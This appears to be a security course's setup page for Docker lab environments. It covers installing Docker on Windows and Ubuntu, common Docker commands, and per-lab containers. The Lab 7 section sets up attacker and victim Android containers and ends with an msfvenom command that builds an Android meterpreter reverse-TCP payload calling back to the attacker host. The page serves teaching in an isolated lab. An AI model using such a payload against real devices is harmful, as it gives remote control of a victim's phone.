



# Set-up

I'm trying to encapsulate all lab environments into Docker containers respectively. So users can access the environments directly without installing extra dependencies (skip Set-up section in each lab). The only thing you need to prepare is to install Docker on your (cloud) machine.

## Install Docker

`````{tabbed} Windows

[Docker Desktop](https://www.docker.com/products/docker-desktop) is a strongly recommended GUI to access containers. After the desktop client application installed, you can pull the image of a lab (e.g. lab 4) by `cmd` (or other terminals like PowerShell or WSL)

```
> docker pull yangzhou301/lab4:lastest
```

When you open the Docker Desktop and select "Images" section, you can find the downloaded images:



Click "Run" and set [volumes](https://docs.docker.com/storage/volumes/sudo) (mapping from the host folder to the folder inside the running container):


After the container starts running, you can click the CLI buttom to open a command-line window:


```{note}
It uses `sh` as default commond-line tool, you can switch to `bash` by running `\bin\bash` right after opening the CLI.


```

By selecting a running container, you can monitor the performance stats:


`````

`````{tabbed} Ubuntu

Follow the instructions from [its docs](https://docs.docker.com/engine/install/ubuntu/):

First, remove all older versions of Docker:

```
$ sudo apt-get remove docker docker-engine docker.io containerd runc
```

Install all dependent packages:

```
$ sudo apt-get update
$ sudo apt-get install \
    apt-transport-https \
    ca-certificates \
    curl \
    gnupg \
    lsb-release
```

Add Docker’s official GPG key:

```
$ curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
```

Set up the stable repository as the target:

```
$ echo \
  "deb [arch=amd64 signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu \
  $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
```

Install Docker engine:

```
$ sudo apt-get update
$ sudo apt-get install docker-ce docker-ce-cli containerd.io
```

After that, Docker is almost set-up, you can check it by

```
$ docker version
```

````{seealso} Post-installation
However, it still requires `sudo` to run Docker daemons. If you don't want to invoke `sudo` every time you use `docker` commands, you can create a Unix group called `docker`:

```
$ sudo groupadd docker
```

And add your user to the `docker` group:

```
$ sudo usermod -aG docker $USER
```

Active the changes to groups:

```
$ newgrp docker
```

````

After Docker installed, pull an image of lab environment (e.g. Lab 4) from the remote repository:

```
$ docker pull yangzhou301/lab4:lastest
```

Suppose the local folder you want to share with the container called `/path/to/host-volume` (**Note**: it must be the absolute path, not relative one), which you want to place into the container as `/path/to/container-volume`, you should run the image as such a container:

```
$ docker run -it -v /path/to/host-volume:/path/to/container-volume yangzhou301/lab4:lastest
```

in which `-it` (`--interactive + --tty`) takes you directly inside of the container in an activative way, `-v` stands for [volume](https://docs.docker.com/storage/volumes/#populate-a-volume-using-a-container) that creates a mapping storage from the host to the container.

Then, install `docker-compose` as the [instruction](https://docs.docker.com/compose/install/):

Download the stable release of Docker Compose:

```
$ sudo curl -L "https://github.com/docker/compose/releases/download/1.29.2/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
```

Apply executable permissions to it:

```
$ sudo chmod +x /usr/local/bin/docker-compose
```

Create a symbolic link to `/usr/bin`

```
$ sudo ln -s /usr/local/bin/docker-compose /usr/bin/docker-compose
```

Test if it is installed successfully:

```
$ docker-compose --version
```
`````

## Common Docker Commands

List all running containers:

```
$ docker ps
```

List all containers (including exited ones):

```
$ docker ps -a
```

Kill all running containers:

```
$ docker container kill $(docker ps -q) 
```

Remove all exited docker containers:

```
$ docker rm $(docker ps -qa --no-trunc --filter "status=exited")
```

List all local images

```
$ docker images
```

Remove all local images:

```
$ docker rmi $(docker images -a -q)
```

## For each lab

### Lab 3

- Dockerfile: {Download}`lab3/Dockerfile`
- Remote: [yangzhou301/lab3](https://hub.docker.com/repository/docker/yangzhou301/lab3)
- Command:

```
$ docker run -it yangzhou301/lab3
```

### Lab 4

- Dockerfile: {Download}`lab4/Dockerfile`
- Remote: [yangzhou301/lab4](https://hub.docker.com/repository/docker/yangzhou301/lab4)
- Shared Folder: `/usr/src/app`(container)
- Command:

```
$ docker run -it --volume=<your-path>:/usr/src/app yangzhou301/lab4
```


### Lab 7

In this lab, it contains three containers`docker-compose`

- Compose File: {Download}`lab7/docker-compose.yml`
- Dockerfile(Attacker): {Download}`lab7/Dockerfile`
- Remote(Attacker):  [yangzhou301/lab7](https://hub.docker.com/repository/docker/yangzhou301/lab7)
- Command
  - Start Docker Compose:
```sh
# work in lab7 directory
$ cd lab7
$ docker-compose up -d

# or any directory that includes the `docker-compose.yml`
$ docker-compose up -d -f docker-compose.yml
```
 - Manipulate the Android Emulator (victim container `10.9.0.6`) on [http://localhost:6080](http://localhost:6080)
 - Monitor the traffic in the subnet via Wireshark (analyzer container `10.9.0.8`) on [http://localhost:3000](http://localhost:3000/)
 - Open a shell in the attacker container (`10.9.0.7`) to process the lab

```
$ docker exec -it attacker /bin/bash
```
 - When all jobs done, terminate all containers by

```
$ docker-compose down
```

Accordingly, change the IP address used in lab instruction, for example:

```
msf> msfvenom -p android/meterpreter/reverse_tcp LHOST=10.9.0.7 LPORT=4444 -f raw -o reverse_tcp.apk
msf> set lhost 10.9.0.7
```